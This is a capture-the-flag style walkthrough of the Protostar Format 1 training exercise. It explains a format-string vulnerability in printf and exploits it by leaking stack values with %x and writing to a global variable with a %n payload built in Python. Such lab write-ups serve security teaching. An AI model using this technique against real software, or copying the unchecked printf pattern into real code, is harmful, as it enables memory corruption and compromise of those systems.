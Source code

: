 # PROTOSTAR : FORMAT 1
[Protostar:Format1](https://exploit.education/protostar/format-one/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings

The above code is vulnerable to Format Strings since the **printf** function is not checking the format of the input, which can contain format specfiers starting with **%**. It can cause memory leak and memory write using **%n**.

Below is the disassembly of the **vuln()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x18
0x080483fa <vuln+6>:    mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:    mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:   call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:   mov    eax,ds:0x8049638
0x0804840a <vuln+22>:   test   eax,eax
0x0804840c <vuln+24>:   je     0x804841a <vuln+38>
0x0804840e <vuln+26>:   mov    DWORD PTR [esp],0x8048500
0x08048415 <vuln+33>:   call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:   leave  
0x0804841b <vuln+39>:   ret    
End of assembler dump.
```

Let's supply some format specifiers and check what output we get.
```
user@protostar:/opt/protostar/bin$ ./format1 %x.%x.%x
804960c.bffff7d8.8048469 
```

As you can see the format specifier **%x** leaks the stack addresses in hexadecimal format. Now lets get our address
Before doing that let's find the address of the **target variable** using objdump.
```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep "target"
08049638 g     O .bss   00000004              target
```
Now lets append our **target** variable address and get our padding right.
```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print '\x38\x96\x04\x08' + '\x38\x96\x04\x08'+ '%x.'*128 + '%x.'")
88804960c.bffff658.8048469.b7fd8304.b7fd7ff4.bffff658.8048435.bffff824.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6d8.b7eadc76.2.bffff704.bffff710.b7fe1848.bffff6c0.ffffffff.b7ffeff4.804824d.1.bffff6c0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6d8.698b158d.43dfa39d.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff704.8048450.8048440.b7ff1040.bffff6fc.b7fff8f8.2.bffff81a.bffff824.0.bffff9b0.bffff9be.bffff9d2.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.178bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7fb.1f.bffffff2.f.bffff80b.0.0.0.86000000.eac74b88.a4794b33.264fe78.697c52e9.363836.0.0.2f2e0000.6d726f66.317461.8049638.user@protostar:/opt/protostar/bin$ 
```

So you can see we got our padding lets replace the last **%x** format specifier with **%n** which will write number of bytes written so far to the **target** variable address and change its value.

You see we successfully changed the **target** variable value using **Format Strings Vulnerability**.

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print '\x38\x96\x04\x08' + '\x38\x96\x04\x08'+ '%x.'*128 + '%n.'")
88804960c.bffff658.8048469.b7fd8304.b7fd7ff4.bffff658.8048435.bffff824.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6d8.b7eadc76.2.bffff704.bffff710.b7fe1848.bffff6c0.ffffffff.b7ffeff4.804824d.1.bffff6c0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6d8.6360bf92.49340982.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff704.8048450.8048440.b7ff1040.bffff6fc.b7fff8f8.2.bffff81a.bffff824.0.bffff9b0.bffff9be.bffff9d2.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.178bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7fb.1f.bffffff2.f.bffff80b.0.0.0.ec000000.3f1a7c06.8176ce46.88f1a6de.69cd784a.363836.0.0.2f2e0000.6d726f66.317461..you have modified the target :)
```